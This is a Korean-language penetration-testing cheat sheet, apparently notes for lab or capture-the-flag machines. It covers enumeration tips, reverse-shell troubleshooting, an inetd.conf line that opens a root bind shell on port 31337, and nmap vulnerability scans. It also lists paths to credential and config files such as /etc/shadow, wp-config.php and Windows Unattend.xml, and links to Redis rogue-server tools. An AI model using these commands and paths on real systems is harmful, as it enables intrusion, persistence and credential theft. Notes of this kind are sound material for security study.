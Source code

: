 - `config` 파일을 먼저 `find`로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- `curl` 헤더 확인

- 사이트 제목 및 내용 확인

- `/var/mail`에 있는 내용 확인
- github에서 `"$pass"`로 pass 변수 찾기
---
# windows ssh file location
```powershell
C:\Users\<Username>\.ssh
```
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.

```bash
sudo nmap -Pn <ip>
```
- ping 테스트가 안되더라도 서버가 열려있을 수 있으니 확인
---
# FTP
- `ls -al`로 숨겨진 파일 확인 가능.
- 업로드가 가능한지 확인
---
# Interesting File Path
```bash
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname

/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/auth.log

/var/www/html/wp-config.php <-- Wordpress
/var/www/configuration.php <-- Joomla
/var/www/html/inc/header.inc.php <-- Dolphin
/var/www/html/sites/default/settings.php <-- Drupal
/var/www/configuration.php <-- Mambo
/var/www/config.php <-- PHP
```
```powershell
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep

C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
```
---
# Redis modules execute command
<img width="811" height="496" alt="image" src="https://github.com/user-attachments/assets/0426a9b3-32af-41ba-9bdf-e3585a712089" />

- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
- https://github.com/n0b0dyCN/redis-rogue-server
---
# redis-cli
```bash
redis-cli -h <ip>
```
---
# SSH
- authorized_keys를 변경할 수 있으면 변경
---
# Make ODT File(Libre Office)
- https://github.com/0bfxgh0st/MMG-LO
---
# glassfish important file location
```bash
glassfish4/glassfish/domains/domain1/config/admin-keyfile and
glassfish4/glassfish/domains/domain1/config/local-password
```
